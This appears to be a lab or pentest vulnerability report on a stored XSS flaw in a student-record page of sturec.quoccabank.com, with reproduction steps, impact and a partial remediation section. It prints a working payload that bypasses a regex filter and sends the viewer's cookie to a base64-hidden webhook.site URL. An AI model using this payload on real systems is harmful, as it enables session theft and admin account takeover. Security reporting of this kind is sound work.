 **CVSS Base Score: 6.5 (MEDIUM)**

### Steps to Reproduce
A stored XSS vulnerability exists in the "Student Create" page of sturec.quoccabank.com.
- By including a script tag in the "Last Name" field and successfully creating a student;

![](https://i.imgur.com/JZ2XgCw.png)

- The next attempt to create a student with the same details (email and last name) will trigger the script.

![](https://i.imgur.com/gHEWkhF.png)

- On the "create student" page, we note that there are client-side restrictions that supplement the same restrictions server-side mostly related to string lengths.
- However, we note too that `dcreat` and `gridCheck` are both unchecked on the client-side and server-side.
- By intercepting the request and inserting the payload below into either or both of the variables, we can successfully store a malicious XSS payload and report the page to admin to extract the cookie from the admin account.
- In developing the payload, we note that the server filters user inputs using the Regex string `<(?:\w+)\W+?[\w]` and thus in order to successfully bypass the one-pass filter, we crafted a payload which lets the filter remove one instance of the character pattern `<script>|<s`.
```javascript=
<<script>|<sscript src=/students.jsonp?callback=fetch(${atob('aHR0cHM6Ly93ZWJob29rLnNpdGUvNjJlZDI3ZmMtNjRjMS00NDM2LWI3ODItNWUxZTFkOWY0MGY5Lw==')}${document['cookie']});></script>
```
![](https://i.imgur.com/H8QDk2B.png)
*Client-side request*

![](https://i.imgur.com/Wi7eNk0.png)
*Server-side request*

### Impact
#### Technical Risk
By hosting a malicious script on the student's page, attackers are able to steal and exfiltrate the cookie for any user who views the page, and in its extremity, target those with positions of power such as administrators or moderators. Doing so would grant the attacker the ability to login and masquerade themselves as the administrator, bestowing them escalated privileges (i.e. authorisation to create, update, delete) that could prove both destructive in vandalism or could be used as a stepping-stone for a larger attack.
#### Business Risk
Damage to this domain not only directly impacts quoccabank's reputation negatively, but its consumers and clients privacy. Attackers could leak user information gleaned from the un-authenticated access to their accounts, selling or distributing confidential information. This opens up the business to potential lawsuits for the negligence causing a breach of privacy.
### Remediation
The core of XSS threats are a result of untrusted data failing to be verified by the domain. Untrusted data includes that of direct user input, API calls and 3rd party systems, user influenced input (cookies, web storage, HTTP header values), Databases, Internal sources, Config files and more.
